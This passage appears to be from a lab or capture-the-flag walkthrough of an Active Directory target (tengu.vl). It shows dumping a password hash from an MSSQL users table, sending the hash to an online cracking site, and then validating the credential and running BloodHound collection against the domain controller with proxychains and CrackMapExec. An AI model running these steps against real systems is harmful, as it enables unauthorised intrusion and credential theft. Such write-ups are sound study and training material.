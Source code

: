 ```bash
SQL (nodered_connector  nodered_connector@Dev)> SELECT name FROM master.dbo.sysdatabases;
name
------
master

tempdb

model

msdb

Demo

Dev

SQL (nodered_connector  nodered_connector@Dev)> use Demo
[*] ENVCHANGE(DATABASE): Old Value: Dev, New Value: Demo
[*] INFO(SQL): Line 1: Changed database context to 'Demo'.
SQL (nodered_connector  nodered_connector@Demo)> select * from users;
  ID   Username          Password
----   ---------------   -------------------------------------------------------------------
NULL   b't2_m.winters'   b'af9cfa9b70e5e90984203087e5a5219945a599abf31dd4bb2a11dc20678ea147'
```
We can crack the hash using this site : [https://crackstation.net/](https://crackstation.net/)

```bash
proxychains -q cme ldap 10.10.208.101 -u 't2_m.winters' -p 'REDACTED'

SMB         10.10.208.101   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
LDAP        10.10.208.101   389    DC               [+] tengu.vl\t2_m.winters:REDACTED
```
Nice we have a valide user on the DC

```bash
proxychains -q cme ldap 10.10.208.101 -u 't2_m.winters' -p 'REDACTED' --bloodhound -ns 10.10.208.101 -c all
SMB         10.10.208.101   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
LDAP        10.10.208.101   389    DC               [+] tengu.vl\t2_m.winters:REDACTED
LDAP        10.10.208.101   389    DC               Resolved collection methods: trusts, group, dcom, container, psremote, objectprops, session, localadmin, rdp, acl
LDAP        10.10.208.101   389    DC               Done in 00M 10S
LDAP        10.10.208.101   389    DC               Compressing output into /root/.cme/logs/DC_10.10.208.101_2024-08-25_225915bloodhound.zip
```